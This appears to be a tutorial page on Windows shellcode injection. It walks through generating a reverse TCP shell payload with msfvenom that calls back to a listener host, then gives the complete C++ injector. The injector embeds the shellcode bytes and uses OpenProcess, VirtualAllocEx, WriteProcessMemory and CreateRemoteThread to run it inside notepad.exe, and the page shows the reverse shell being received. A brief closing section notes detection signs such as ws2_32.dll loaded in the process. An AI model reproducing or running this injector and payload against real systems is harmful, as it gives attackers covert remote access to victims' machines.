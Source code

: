```yaml
---
description: Shellcode Injection using CreateRemoteThread API
---
```


# Shellcode Injection

Code Injection is a process to inject code into another running process.

In this article, We are gonna focus on injecting shellcode using CreateRemoteThread API.

## Generating Shellcode

First off, Let's use Metasploit to generate our malicious shellcode. It's a reverse tcp shell.

{% code overflow="wrap" %}
```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.0.0.3 LPORT=3333 -f c -b \x00\x0a\x0d
```
{% endcode %}

<div data-full-width="false">

<figure><img src="../../.gitbook/assets/msfvenom_Shellcode.png" alt=""><figcaption></figcaption></figure>

</div>

## Executing Shellcode

Now our C++ code to inject and execute this shellcode into a process by following steps:

* First, we need to open our target process, using `OpenProcess` API with the parameter `PROCESS_ALL_ACCESS` which gain all possible access rights for a process object.
* Then we will use `VirtualAllocEx`  API, which allocates a region of memory within the virtual address space of a target process equal to our size of shellcode. We use the `MEM_RESERVE and MEM_COMMIT` parameters for memory allocation type and `PAGE_EXECUTE_READWRITE` for memory protection of the pages.
* Write the shellcode data to the allocated memory area in the target process using the `WriteProcessMemory` API.
* Lastly, create a new thread in the virtual address space of the target process with the `CreateRemoteThread` API to execute the injected shellcode.

{% code title="ShellCodeInj.cpp" fullWidth="false" %}
```

#include <windows.h>
#include <stdlib.h>
#include <stdio.h>



void printError(const char* error)
{
	printf("%s is failing. Error code: 0x%x\n\n", error, GetLastError());
}



int main(int argc, char *argv[])
{
	//msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.0.0.3 LPORT=3333 -f c -b \x00\x0a\x0d
	unsigned char shellcode[] =
		"\x48\x31\xc9\x48\x81\xe9\xc6\xff\xff\xff\x48\x8d\x05\xef"
		"\xff\xff\xff\x48\xbb\x47\xdd\xc8\xf6\xf5\xe1\xd4\x3a\x48"
		"\x31\x58\x27\x48\x2d\xf8\xff\xff\xff\xe2\xf4\xbb\x95\x4b"
		"\x12\x05\x09\x14\x3a\x47\xdd\x89\xa7\xb4\xb1\x86\x6b\x11"
		"\x95\xf9\x24\x90\xa9\x5f\x68\x27\x95\x43\xa4\xed\xa9\x5f"
		"\x68\x67\x95\x43\x84\xa5\xa9\xdb\x8d\x0d\x97\x85\xc7\x3c"
		"\xa9\xe5\xfa\xeb\xe1\xa9\x8a\xf7\xcd\xf4\x7b\x86\x14\xc5"
		"\xb7\xf4\x20\x36\xd7\x15\x9c\x99\xbe\x7e\xb3\xf4\xb1\x05"
		"\xe1\x80\xf7\x25\x6a\x54\xb2\x47\xdd\xc8\xbe\x70\x21\xa0"
		"\x5d\x0f\xdc\x18\xa6\x7e\xa9\xcc\x7e\xcc\x9d\xe8\xbf\xf4"
		"\x31\x37\x6c\x0f\x22\x01\xb7\x7e\xd5\x5c\x72\x46\x0b\x85"
		"\xc7\x3c\xa9\xe5\xfa\xeb\x9c\x09\x3f\xf8\xa0\xd5\xfb\x7f"
		"\x3d\xbd\x07\xb9\xe2\x98\x1e\x4f\x98\xf1\x27\x80\x39\x8c"
		"\x7e\xcc\x9d\xec\xbf\xf4\x31\xb2\x7b\xcc\xd1\x80\xb2\x7e"
		"\xa1\xc8\x73\x46\x0d\x89\x7d\xf1\x69\x9c\x3b\x97\x9c\x90"
		"\xb7\xad\xbf\x8d\x60\x06\x85\x89\xaf\xb4\xbb\x9c\xb9\xab"
		"\xfd\x89\xa4\x0a\x01\x8c\x7b\x1e\x87\x80\x7d\xe7\x08\x83"
		"\xc5\xb8\x22\x95\xbf\x4b\x96\xa7\x08\x18\xee\xfa\xf6\xf5"
		"\xa0\x82\x73\xce\x3b\x80\x77\x19\x41\xd5\x3a\x47\x94\x41"
		"\x13\xbc\x5d\xd6\x3a\x4a\xd8\xc2\xf6\xf5\xe2\x95\x6e\x0e"
		"\x54\x2c\xba\x7c\x10\x95\x80\x0b\xaa\xee\xf1\x0a\x34\x98"
		"\xb3\xad\xb5\xc9\xf7\xf5\xe1\x8d\x7b\xfd\xf4\x48\x9d\xf5"
		"\x1e\x01\x6a\x17\x90\xf9\x3f\xb8\xd0\x14\x72\xb8\x1d\x80"
		"\x7f\x37\xa9\x2b\xfa\x0f\x54\x09\xb7\x4f\x0b\xdb\xe5\xa7"
		"\x22\x1d\xbe\x7c\x26\xbe\x2a\x06\x85\x84\x7f\x17\xa9\x5d"
		"\xc3\x06\x67\x51\x53\x81\x80\x2b\xef\x0f\x5c\x0c\xb6\xf7"
		"\xe1\xd4\x73\xff\xbe\xa5\x92\xf5\xe1\xd4\x3a\x47\x9c\x98"
		"\xb7\xa5\xa9\x5d\xd8\x10\x8a\x9f\xbb\xc4\x21\xbe\x37\x1e"
		"\x9c\x98\x14\x09\x87\x13\x7e\x63\x89\xc9\xf7\xbd\x6c\x90"
		"\x1e\x5f\x1b\xc8\x9e\xbd\x68\x32\x6c\x17\x9c\x98\xb7\xa5"
		"\xa0\x84\x73\xb8\x1d\x89\xa6\xbc\x1e\x1c\x77\xce\x1c\x84"
		"\x7f\x34\xa0\x6e\x43\x8b\xe2\x4e\x09\x20\xa9\xe5\xe8\x0f"
		"\x22\x02\x7d\xfb\xa0\x6e\x32\xc0\xc0\xa8\x09\x20\x5a\x24"
		"\x8f\xe5\x8b\x89\x4c\x53\x74\x69\xa7\xb8\x08\x80\x75\x31"
		"\xc9\xe8\x3c\x3b\xd7\x48\x0d\x15\x94\xd1\x81\x00\xce\xba"
		"\x99\x9f\xe1\x8d\x7b\xce\x07\x37\x23\xf5\xe1\xd4\x3a";
		

	printf("Injecting to PID %i", atoi(argv[1]));

	HANDLE processHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));
	if (processHandle == INVALID_HANDLE_VALUE)
	{
		printError("OpenProcess");
		return 0;
	}

	PVOID remoteBuffer = VirtualAllocEx(processHandle, NULL, sizeof shellcode, (MEM_RESERVE | MEM_COMMIT), PAGE_EXECUTE_READWRITE);
	if (!remoteBuffer)
	{
		printError("VirtualAlllocEx");
		CloseHandle(processHandle);
		return 0;
	}

	if (!WriteProcessMemory(processHandle, remoteBuffer, shellcode, sizeof shellcode, NULL))
	{
		printError("WriteProcessMemory");
		CloseHandle(processHandle);
		return 0;
	}
	
	HANDLE remoteThread = CreateRemoteThread(processHandle, NULL, 0, (LPTHREAD_START_ROUTINE)remoteBuffer, NULL, 0, NULL);
	if (!remoteThread)
	{
		printError("CreateRemoteThread");
		CloseHandle(processHandle);
		return 0;
	}

	CloseHandle(processHandle);



	return 0;
}
```
{% endcode %}

{% file src="../../.gitbook/assets/ShellCodeInj.exe" %}

Then, we will run our `exe` with the `process ID` of our target process in which we want to inject our shellcode. For this scenario we are taking the `notepad.exe`:

<figure><img src="../../.gitbook/assets/Shellcode_Injection.png" alt=""><figcaption></figcaption></figure>

We can see that the process ID of `notepad.exe` is `6392`. Now, on running our executable.

`ShellcodeInj.exe 6392`

<figure><img src="../../.gitbook/assets/Shellcode_Injection_2 (1).png" alt=""><figcaption></figcaption></figure>

We received the reverse shell on our Netcat listener and have remote access to our target system.

We can see `ShellcodeInj.exe` created a new process `cmd.exe` under `notepad.exe`

## Analysing the injected Process

Upon further analysis of `notepad.exe`, we can see the `ws2_32.dll` module loaded in the module section, which is typically not loaded under normal circumstances for notepad. This module handles socket management, indicating potential abnormal activity within the process.

<figure><img src="../../.gitbook/assets/modules (1).png" alt=""><figcaption></figcaption></figure>

Also on checking the `memory` tab, we can see, the `ws2_32.dll` loaded, and having the read and execute permission set for it.&#x20;

<figure><img src="../../.gitbook/assets/memory.png" alt=""><figcaption></figcaption></figure>

Hence, we successfully injected the shellcode in target process. That's all for this blog.&#x20;



<figure><img src="http://www.reactiongifs.com/r/2012/06/homer_lurking.gif" alt=""><figcaption></figcaption></figure>

## References

{% embed url="https://0xpat.github.io/Malware_development_part_1/" %}

{% embed url="https://www.ired.team/offensive-security/code-injection-process-injection/process-injection" %}
